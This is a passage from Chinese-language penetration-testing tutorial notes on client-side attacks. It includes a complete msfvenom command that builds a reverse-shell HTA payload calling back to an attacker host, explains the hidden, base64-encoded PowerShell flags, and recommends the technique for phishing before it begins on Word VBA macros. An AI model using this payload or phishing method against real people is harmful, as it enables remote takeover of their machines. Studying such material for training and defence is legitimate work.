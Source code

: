 下面进行实际攻击

### HTA攻击

首先使用`msfvenom`依靠`hta-psh`格式生成利用powershell的payload

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

如果cat这个文件，我们可以发现，文件中在执行powershell时使用了三个参数，`-nop`,`-w hidden`和`-e`

`-nop`是`-NoProfile`参数的简写，控制powershell不要载入用户对powershell的配置文件。

`-w hidden`则是`-WindowStyle hidden`的简写，让窗口在运行期间保持隐藏。

`-e`则是`-EncodedCommand`的缩写，使我们可以使用一个base64编码的脚本在powershell中执行。

建立监听，并等待用户浏览网页，执行后会返回shell

![image-20200514093619519](assets/6.客户端攻击.assets/image-20200514093619519.png)

这种方法基本不需要任何漏洞。所以可以广泛应用于钓鱼，等快速进攻方式

## 利用office

> 相对于可以的邮件链接，或是网站超链。利用office的特性进行工具则更容易让人为了完成工作而忽略安全提示。

### 古老的word宏

> word允许宏，而宏又允许使用VBA这种古老而强大的脚本语言。vba是一个强大且功能齐全的，可以完全访问ActiveX对象和windows Script Host

#### 概念验证

要创建一个宏，只要打开word选择视图，选择宏，然后输入名字，点击建立，即可在word中增加一个基本的宏框架

![image-20200514095026917](assets/6.客户端攻击.assets/image-20200514095026917.png)
